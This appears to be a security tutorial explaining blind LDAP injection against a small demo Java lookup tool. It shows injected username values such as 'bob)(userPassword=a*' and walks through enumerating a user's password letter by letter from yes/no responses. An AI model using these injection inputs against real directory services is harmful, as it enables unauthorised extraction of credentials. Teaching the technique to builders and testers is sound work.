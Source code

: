 ## Blind LDAP injections

Blind LDAP injections are similar to blind SQL injections. An application may be vulnerable to LDAP injection, but it may not print out all requested fields. This doesn't allow an attacker to simply dump the content of LDAP directory. But if the application shows somehow if LDAP search requests with injected data succeed or not, then this behavior allows an attacker to ask yes/not questions. As a result, it may be possible to implement an efficient bruteforce attack, and extract data from the LDAP database.

Let's consider the following application. It takes a user ID, search for a corresponding record in LDAP directory. If a record was found, it prints out user's phone number. If not, it says that nobody found. The application can use LDAP server above.

<script src="https://gist.github.com/artem-smotrakov/e4d3bac16fa3404d89c9f09b830d8513.js"></script>

Here is how it's supposed to be normally used:

```
$ javac -d classes LDAPInfo.java 
$ java -cp classes LDAPInfo bob
LDAP query: (&(uid=bob)(objectClass=person))
Phone: telephoneNumber: 555-9999
$ java -cp classes LDAPInfo boba
LDAP query: (&(uid=boba)(objectClass=person))
Nobody found!
```

You might notice that LDAPInfo is vulnerable to LDAP-injection attack. Although it prints out only user's phone number, an attacker can still extract data from other fields. For example, an attacker can check if `userPassword` field for Bob's account starts with 'a' letter:

```
$ java -cp classes LDAPInfo "bob)(userPassword=a*"
LDAP query: (&(uid=bob)(userPassword=a*)(objectClass=person))
Nobody found!
```

You can see that if you pass `bob)(userPassword=a*` string as a user name, it results to 'Nobody found!' message. The application built `(&(uid=bob)(userPassword=a*)(objectClass=person))` search query which didn't return anything because `userPassword` for Bob's record doesn't start with 'a'. Now an attacker can enumerate first letters:

```
$ java -cp classes LDAPInfo "bob)(userPassword=a*"
LDAP query: (&(uid=bob)(userPassword=a*)(objectClass=person))
Nobody found!
$ java -cp classes LDAPInfo "bob)(userPassword=b*"
LDAP query: (&(uid=bob)(userPassword=b*)(objectClass=person))
Nobody found!
$ java -cp classes LDAPInfo "bob)(userPassword=c*"
LDAP query: (&(uid=bob)(userPassword=c*)(objectClass=person))
Nobody found!
[...]
$ java -cp classes LDAPInfo "bob)(userPassword=s*"
LDAP query: (&(uid=bob)(userPassword=s*)(objectClass=person))
Phone: telephoneNumber: 555-9999
```
